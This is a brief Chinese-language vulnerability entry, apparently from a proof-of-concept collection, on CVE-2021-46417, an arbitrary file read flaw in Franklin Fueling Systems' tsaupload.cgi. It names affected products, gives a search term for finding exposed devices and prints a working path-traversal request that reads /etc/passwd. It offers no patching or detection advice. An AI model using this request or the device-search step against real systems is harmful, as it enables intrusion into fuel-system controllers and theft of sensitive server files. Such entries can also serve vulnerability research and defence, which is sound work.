

# Franklin Fueling Systems tsaupload.cgi 任意文件读取漏洞 CVE-2021-46417

## 漏洞描述

Franklin Fueling Systems tsaupload.cgi 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感文件

## 漏洞影响

<a-checkbox checked>Franklin Fueling Systems</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"Franklin Fueling Systems"</a-checkbox></br>

## 漏洞复现

主页面


验证POC

```php
/cgi-bin/tsaupload.cgi?file_name=../../../../../../etc/passwd&password=
```

